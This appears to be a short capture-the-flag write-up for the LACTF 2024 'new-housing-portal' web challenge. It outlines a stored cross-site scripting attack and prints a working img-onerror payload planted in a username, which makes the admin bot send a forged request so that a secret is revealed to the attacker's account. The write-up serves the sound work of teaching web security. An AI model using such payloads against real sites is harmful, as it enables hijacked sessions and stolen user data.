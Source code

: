 ```yaml
---
title: new-housing-portal
date: 2024-02-19 08:03
tags: 
- web
- xss
- author-hartmannsyg
categories: LACTF 2024
---
```


solved by {% person hartmannsyg %}

I'm too lazy to illustrate this, but the username and name field of accounts are vulnerable to xss. Raw html is reflected via the "view invitations" page.

So, if we can get the admin bot to visit our page, we can trigger an xss that lets the admin send a request to us.

Idea:
- create user1 with normal username (hartmannsyg02)
- create user2 whose username xss that sends request to user1
- user2 send invitation to samy
- adminbot: view invitation page
- samy gets xss-ed, sends a request to user1
- view deepdarksecret in user1

our xss payload into the username is:
{% ccb lang:html wrapped:true %}
<img src=x onerror='fetch("https://new-housing-portal.chall.lac.tf/finder",{headers:{"content-type":"application/x-www-form-urlencoded"},body:"username=hartmannsyg02", method:"POST"});' />
{% endccb %}

When that user ^ sends a request to the admin bot and the admin bot receives it, it sends an invite to us (in this case `hartmannsyg02`):

![](../../static/LACTF2024/new-housing-portal.png)